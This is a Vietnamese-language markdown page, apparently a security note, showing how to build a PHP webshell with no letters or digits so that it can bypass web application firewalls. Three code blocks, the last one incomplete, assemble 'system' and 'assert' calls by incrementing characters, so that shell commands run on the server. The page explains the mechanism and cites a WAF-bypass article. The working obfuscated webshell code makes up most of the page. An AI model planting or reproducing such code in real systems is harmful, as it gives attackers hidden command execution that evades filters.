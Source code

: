 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('lsls') với không kí tự chữ cái nào

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$___($____);
?>
```

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
    1, Tận dụng chuỗi ký tự ASCII:
      - Biến $__ bắt đầu với giá trị ASCII của ký tự đầu tiên ($_[3]) của chuỗi rỗng, sau đó được tăng dần bằng toán tử tăng ++ để đạt được các ký tự mong muốn (s, y, s, t, e, m và l, s).
    2, Ghép nối chuỗi để tạo hàm và tham số:
      - Biến $___ được xây dựng bằng cách ghép nối các ký tự để tạo thành hàm system.
      - Biến $____ được ghép nối các ký tự để tạo ra tham số ls.
    3, Gọi hàm:
      - Cuối cùng, $___($_) gọi hàm system với tham số là chuỗi ls, thực thi lệnh ls trên hệ thống.
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)


<!-- Webshell with assert -->
- assert(system(ls))

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$_____="";
$__=$_;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$_____.=$__;

$______="";
$__=$_;
$__++;$__++;$__++; 
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$______.=$__;

$_____($___($____));
?>
```
<!-- Webshell with assert -->

```php
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$____.=$__;

?>
```